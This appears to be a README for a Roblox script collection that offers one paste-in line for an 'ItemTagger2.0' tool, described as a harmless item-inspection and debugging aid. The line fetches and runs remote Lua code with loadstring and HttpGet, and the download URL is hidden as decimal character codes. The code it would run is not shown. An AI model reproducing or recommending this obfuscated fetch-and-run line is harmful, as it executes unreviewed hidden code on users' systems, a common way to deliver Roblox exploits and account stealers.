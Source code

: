 # Roblox Script Loader Collection

Welcome to the **Roblox Script Loader Collection**! This repository contains a list of useful Roblox scripts that you can use for your games. All scripts are dynamically loaded via `loadstring()` for convenience.

### 🌟 Table of Contents

- [ItemTagger2.0](#itemtagger20)
- [More Scripts Coming Soon](#more-scripts-coming-soon)

---

## 📜 1. ItemTagger2.0 Script

This is the first script in our collection. It dynamically loads the script from a remote server using a **`loadstring`** and **`HttpGet`** method.

```
-- ItemTagger2.0 Script (First in the collection)

loadstring(game:HttpGet((function()local d="";for a in("104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,97,114,111,111,115,104,98,100,50,48,50,52,47,82,111,98,108,111,120,83,99,114,105,112,116,115,47,114,101,102,115,47,104,101,97,100,115,47,109,97,105,110,47,73,116,101,109,84,97,103,103,101,114,50,46,48,46,108,117,97"):gmatch("%d+")do d=d..string.char(tonumber(a))end;return d end)()))()
```



## 💡 Usage

The **ItemTagger2.0** script is a great tool for inspecting items in your Roblox game. Here’s how you can use it:

1. **Inspect Items in Your Game**: This script allows you to inspect game items, making it easier for developers to see detailed information about objects, models, or anything within the game environment.
  
2. **Script Development Tool**: It’s a fantastic tool for script development because it provides an easy way to test and debug your scripts. You can use it to load and inspect items dynamically, which helps when creating new scripts and understanding how items behave.

3. **Flexibility**: The script can be modified and expanded to meet the specific needs of your game. Whether you're building a custom UI, working with items dynamically, or trying to learn more about objects, this script serves as a great starting point.

---

## ⚡ More Scripts Coming Soon

We're constantly adding new scripts to the collection. Stay tuned for more useful tools and utilities to enhance your Roblox game development.

---

## 📋 License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

---

## ✨ Contributors

- **Arooshbd2122**: Creator and maintainer of this collection.

Feel free to contribute or suggest new scripts by creating a pull request!

---

Thanks for checking out the Roblox Script Loader Collection! Happy developing!
